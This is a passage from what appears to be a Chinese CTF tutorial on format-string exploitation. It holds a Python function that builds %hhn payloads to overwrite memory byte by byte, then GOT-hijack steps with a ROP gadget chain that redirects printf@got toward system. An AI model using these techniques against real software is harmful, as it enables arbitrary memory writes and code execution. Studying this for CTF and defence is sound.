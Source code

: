 #### 覆盖大数字

```python
def fmt(prev, word, index):
    if prev < word:
        result = word - prev
        fmtstr = "%" + str(result) + "c"
    elif prev == word:
        result = 0
    else:
        result = 256 + word - prev
        fmtstr = "%" + str(result) + "c"
    fmtstr += "%" + str(index) + "$hhn" 		# 一个字节一个字节的覆盖
    return fmtstr


def fmt_str(offset, size, addr, target):
    payload = ""
    for i in range(4):
        if size == 4:
            payload += p32(addr + i)
        else:
            payload += p64(addr + i)
    prev = len(payload)
    for i in range(4):
        payload += fmt(prev, (target >> i * 8) & 0xff, offset + i)
        prev = (target >> i * 8) & 0xff
    return payload
payload = fmt_str(6, 4, 0x0804A028, 0x12345678)
```

## 利用示例

### [hijack GOT](https://ctf-wiki.github.io/ctf-wiki/pwn/linux/fmtstr/fmtstr_example-zh/#hijack-got)

假设我们将函数 A 的地址覆盖为函数 B 的地址，那么这一攻击技巧可以分为以下步骤

- 确定函数 A 的 GOT 表地址。

  - 这一步我们利用的函数 A 一般在程序中已有，所以可以采用简单的寻找地址的方法来找。

- 确定函数 B 的内存地址

  - 这一步通常来说，需要我们自己想办法来泄露对应函数 B 的地址。

- 将函数 B 的内存地址写入到函数 A 的 GOT 表地址处。

  - 这一步一般来说需要我们利用函数的漏洞来进行触发。一般利用方法有如下两种

    - 写入函数：write 函数。
    - ROP

    ```assembly
pop eax; ret;           # printf@got -> eax
    pop ebx; ret;           # (addr_offset = system_addr - printf_addr) -> ebx
    add [eax] ebx; ret;     # [printf@got] = [printf@got] + addr_offset
    ```
    
